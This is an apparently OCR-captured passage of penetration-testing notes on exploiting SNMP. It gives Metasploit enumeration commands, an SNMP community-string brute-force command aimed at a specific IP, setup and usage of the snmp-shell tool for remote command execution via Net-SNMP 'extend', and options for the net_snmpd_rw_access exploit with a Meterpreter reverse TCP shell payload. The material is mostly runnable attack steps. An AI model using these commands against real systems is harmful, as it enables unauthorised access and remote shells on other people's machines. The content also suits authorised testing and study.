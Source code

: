 ```bash
   VERSION    1                yes       SNMP Version <1/2c>

msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 192.2.1.182
msf6 auxiliary(scanner/snmp/snmp_enum) > run
```

**Recommendation For Best Output Format** 

https://github.com/SECFORCE/SNMP-Brute

`python snmp_brute.py -t 91.216.192.182 -p 161 --cisco|linux|windows -f test.txt`

### **RCE linux with Extend Net-SNMP (Net-SNMP-Extend-MIB)**

https://github.com/mxrch/snmp-shell

```bash
**Installation** 
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

`python3 shell.py IP.12.123.10 -c privateasexaple -v 1|2c` 

```bash
Simulates a terminal over Net-SNMP "extend" functionality. Be sure your
SNMP Community String has write access.
-ss, --snmpset TEXT         Path for the snmpset binary
-sw, --snmpwalk TEXT        Path for the snmpwalk binary

```

**`metasploit`**

```bash
msf6>use scanner/snmp/snmp_set
msf6 exploit(linux/snmp/net_snmpd_rw_access) > show options 

Module options (exploit/linux/snmp/net_snmpd_rw_access):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CHUNKSIZE  200              yes       Maximum bytes of payload to write at once
   COMMUNITY  public           yes       SNMP Community String
   FILEPATH   /tmp             yes       file path to write to
   RETRIES    1                yes       SNMP Retries
   RHOSTS     91.216.192.182   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      161              yes       The target port (TCP)
   SHELL      /bin/bash        yes       Shell to call with -c argument
   SRVHOST                     yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.4      yes       The listen address (an interface may be specified)
```